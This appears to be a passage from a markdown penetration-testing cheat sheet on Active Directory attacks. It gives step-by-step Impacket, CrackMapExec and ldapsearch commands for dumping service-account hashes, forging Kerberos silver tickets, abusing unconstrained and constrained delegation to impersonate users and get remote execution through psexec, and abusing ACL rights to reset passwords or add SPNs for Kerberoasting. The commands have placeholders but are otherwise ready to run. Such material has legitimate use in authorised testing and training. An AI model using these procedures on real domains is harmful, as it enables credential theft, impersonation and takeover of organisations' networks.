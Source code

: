 ### Silver Ticket Attack
```bash
# 1. Get service account hash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py <domain>/<username>:<password>@<target>

# 2. Create silver ticket for specific service (e.g., CIFS)
python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash <service-hash> -domain <domain> -domain-sid <domain-sid> -spn cifs/<target-fqdn> <fake-username>

# 3. Use the ticket
export KRB5CCNAME=<fake-username>.ccache
python3 /usr/share/doc/python3-impacket/examples/smbclient.py <domain>/<fake-username>@<target> -k -no-pass
```

## Advanced Privilege Escalation

### Delegation Attacks

#### Unconstrained Delegation
```bash
# Find computers with unconstrained delegation
crackmapexec ldap <dc-ip> -u <username> -p <password> --trusted-for-delegation

# Alternative LDAP query
ldapsearch -h <dc-ip> -x -D "<username>@<domain>" -w <password> -b "DC=domain,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=524288)"

# If you compromise a machine with unconstrained delegation:
# Monitor for TGTs using Rubeus or similar tools
```

#### Constrained Delegation
```bash
# Find constrained delegation
crackmapexec ldap <dc-ip> -u <username> -p <password> --constrained-delegation

# Exploit with impacket
python3 /usr/share/doc/python3-impacket/examples/getST.py -spn <target-spn> -impersonate <target-user> <domain>/<service-account>:<password>
export KRB5CCNAME=<target-user>.ccache
python3 /usr/share/doc/python3-impacket/examples/psexec.py <domain>/<target-user>@<target> -k -no-pass
```

### ACL-Based Attacks
```bash
# Use BloodHound to identify:
# - GenericAll permissions
# - GenericWrite permissions  
# - WriteOwner permissions
# - WriteDACL permissions
# - AllExtendedRights permissions

# Example: Change user password with GenericAll
python3 /usr/share/doc/python3-impacket/examples/changepasswd.py <domain>/<attacker-user>:<password> -newpass <new-password> <target-user>@<dc-ip>

# Example: Add SPN for Kerberoasting with GenericWrite
python3 /usr/share/doc/python3-impacket/examples/addspn.py <domain>/<username>:<password> -user <target-user> -spn <fake-spn> <dc-ip>
```
